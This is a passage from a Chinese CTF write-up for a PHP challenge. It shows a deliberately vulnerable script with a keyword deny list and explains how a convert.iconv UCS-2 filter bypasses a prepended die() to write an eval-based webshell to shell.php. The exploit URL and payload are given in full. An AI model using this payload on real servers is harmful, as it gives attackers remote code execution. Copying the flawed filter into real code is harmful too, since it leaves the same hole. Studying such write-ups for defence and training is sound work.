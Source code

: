 详情看这里 https://yanmie-art.github.io/2020/09/05/%E6%8E%A2%E7%B4%A2php%E4%BC%AA%E5%8D%8F%E8%AE%AE%E4%BB%A5%E5%8F%8A%E6%AD%BB%E4%BA%A1%E7%BB%95%E8%BF%87/

## web117~不同变量死亡绕过USC

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);

```

死亡绕过不同变量

这里过滤了 `base64` 那就是 `base64-decode`了。

过滤了`string` 不能使用 `字符过滤器`了，

但是`convert` 还是可以使用 `转换过滤器` 

可以使用`convert.iconv.*` 

https://www.php.net/manual/en/filters.convert.php

原理：对原有字符串进行某种编码然后再解码，这个过程导致最初的限制exit;去除。

构造

```
?file=php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=shell.php

# post
contents=?<hp pvela$(P_SO[T]a;)>?
```

可以看到原先的死亡语句已经变成了`?<hp pid(e;)>?`

[![D33EQO.md.png](https://s3.ax1x.com/2020/11/21/D33EQO.md.png)](https://imgchr.com/i/D33EQO)



https://yanmie-art.github.io/2020/09/05/%E6%8E%A2%E7%B4%A2php%E4%BC%AA%E5%8D%8F%E8%AE%AE%E4%BB%A5%E5%8F%8A%E6%AD%BB%E4%BA%A1%E7%BB%95%E8%BF%87/



## upload~固定后缀文件包含

题目来源：

